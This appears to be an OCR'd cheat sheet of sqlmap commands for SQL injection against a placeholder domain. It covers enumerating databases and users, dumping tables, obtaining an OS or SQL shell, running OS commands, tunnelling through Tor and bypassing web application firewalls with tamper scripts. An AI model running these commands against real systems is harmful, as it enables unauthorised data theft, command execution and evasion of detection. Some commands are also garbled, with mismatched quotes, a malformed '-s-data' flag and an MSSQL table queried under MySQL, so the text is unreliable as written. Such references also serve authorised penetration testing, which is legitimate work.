 — — CHEAT SHEET — —
# Enum DB

sqlmap --dbms=mysql -u “http://takumatest.domain/" --dbs

# Enum tables

sqlmap --dbms=mysql -u “http://takumatest.domain/" -D target_DB --tables

--current-user : enum current user

--current-db : enum db name

# Use POST methods

sqlmap --dbms=mysql -u “http://takumatest.domain/" --data=”data1=aaa&data2=bbb”

# List of users and roles

sqlmap --dbms=mysql -u “http://takumatest.domain/" --users --roles --threads=10

# Custom Query

sqlmap --dbms=mysql -u “http://takumatest.domain/" --sql-query=”select * from master.sys.server_principals”

# Dump table

sqlmap --dbms=mysql -u “http://takumatest.domain/" -D target_DB -T target_Table --dump

# List columns

sqlmap --dbms=mysql -u “http://takumatest.domain/" -D target_DB -T target_Table --columns

# Parameter

sqlmap --dbms=mysql -u “http://takumatest.domain/param1=value1&param2=value2" --dbs -p param2

# Specify URIs

sqlmap --dbms=mysql -u “http://takumatest.domain/param1/value1*/param2/value2" --dbs

sqlmap -u ‘http://takumatest.domain/' --data=’param1=blah&param2=blah’ --cookie=’JSESSIONID=d02084cbe50e16aa4' --level=5 --risk=3 -p param1

# OS Shell

sqlmap --dbms=mysql -u “http://takumatest.domain/" --os-shell

# SQL Shell

sqlmap --dbms=mysql -u “http://takumatest.domain/" --sql-shell

# CMD Shell

sqlmap --dbms=mysql -u “http://takumatest.domain/" --os-cmd whoami

# Query

sqlmap --dbms=mysql -u “http://takumatest.domain/" -D target_DB --sql-query “SELECT * FROM TABLE;”

# Scan through TOR

sqlmap -u “http://takumatest.domain/" --tor --tor-type=SOCKS5 --check-tor --dbms=mysql --dbs

# Basic authen & NTLM

sqlmap -u “http://takumatest.domain/” -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password

#Proxy

sqlmap -u “http://takumatest.domain/” --proxy=http://proxy_address:port

#Specific point to inject use *

sqlmap -u “http://takumatest.domain/abc/def/123*/data.php”

#Dump Limit

--start=1 --stop=10

#Bypass WAF (for example)

--tamper=”between,randomcase,space2comment”

#Techniques

--technique=BEUST
Stacked queries (S)
Error based (E)
Union query based (U)
Inline queries (I)
Boolean blind (B)
Time based blind (T)

#Clear cache

--fresh-queries
--flush-session
